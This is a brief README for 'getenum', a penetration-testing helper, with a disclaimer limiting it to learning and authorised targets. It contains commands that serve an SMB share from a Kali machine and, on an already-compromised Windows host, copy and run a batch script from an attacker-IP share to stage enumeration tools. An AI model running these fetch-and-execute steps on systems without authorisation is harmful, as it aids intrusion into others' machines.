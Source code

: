 # getenum
Windows - upload enumeration tools to target
NOTE: tools are current a/o 26 April 2022

<br><hr>

## USAGE

USE OF THIS TOOL ASSUMES SHELL ACCESS ON A TARGET WINDOWS MACHINE
<br>

```
# ON KALI
impacket-smbserver -smb2support share ../getenum

# ON TARGET WINDOWS SHELL
mkdir c:\tmp
cd c:;\tmp

copy \\<attacker-ip>\share\getenum.bat

.\getenum.bat attacker-ip
```

<br><hr>

## HAPPENINGS

THE BATCH SCRIPT WILL CREATE C:\tmp\Enum
... WILL USE SMB TO COPY FILES TO WINDOWS
... USE README.txt (in Enum) TO SEE COMMANDS

## DISCLAIMER

All tools included in this repo are intended for learning purposes only and are to only be used on target systems with permission of the system owner.